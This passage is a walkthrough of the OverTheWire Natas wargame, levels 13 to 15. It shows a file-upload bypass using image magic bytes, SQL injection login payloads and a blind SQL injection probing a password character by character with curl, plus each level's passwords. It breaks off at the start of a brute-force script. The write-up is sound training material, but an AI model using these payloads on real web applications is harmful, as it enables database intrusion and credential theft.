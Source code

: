 		The file <a href="upload/83m9pyj9wo.php">upload/83m9pyj9wo.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
		...
	7. $ curl http://natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY@natas13.natas.labs.overthewire.org/upload/83m9pyj9wo.php
		...
		????Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
		...
	   $ curl -s http://natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY@natas13.natas.labs.overthewire.org/upload/83m9pyj9wo.php | xxd
		0000000: ffd8 ffe0 4c67 3936 4d31 3054 6466 6150  ....Lg96M10TdfaP
		0000010: 7956 426b 4a64 6a79 6d62 6c6c 5135 4c36  yVBkJdjymbllQ5L6
		0000020: 7164 6c31 0a                             qdl1.

		Question marks are just the special magic chars. Password is: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
natas14:
	1. Visit http://natas14.natas.labs.overthewire.org
	2. We're prompted with an Authentication dialog.
	3. Login with "natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1"
	4. $ curl -d "username=\" or 1=1--&password=\" or 1=1--" http://natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1@natas14.natas.labs.overthewire.org/
		...
		Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
		...
natas15:
	1. Visit http://natas15.natas.labs.overthewire.org
	2. We're prompted with an Authentication dialog.
	3. Login with "natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"
	4. We see a form with "username" paramter.
	4. $ curl -d 'username=natas16' http://natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J@natas15.natas.labs.overthewire.org/
		...
		This user exists.
		...
	5. $ curl -d 'username=natas16" and "a"="a' http://natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J@natas15.natas.labs.overthewire.org/
		...
		This user exists.
		...
	6. $ curl -d 'username=natas16" and "a"="A' http://natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J@natas15.natas.labs.overthewire.org/
		...
		This user exists.
		...
	7. $ curl -d 'username=natas16" and binary "a"="A' http://natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J@natas15.natas.labs.overthewire.org/
		...
		This user doesn't exist.
		...
	8. $ curl -d 'username=natas16" and binary SUBSTR(pass, 1, 1) = "a' http://natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J@natas15.natas.labs.overthewire.org/
		...
		Error in query
		...
	9. $ curl -d 'username=natas16" and binary SUBSTR(password, 1, 1) = "a' http://natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J@natas15.natas.labs.overthewire.org/
		...
		This user doesn't exist
		...
	10. Now we bruteforce!
		"""python
		import requests
		import sys
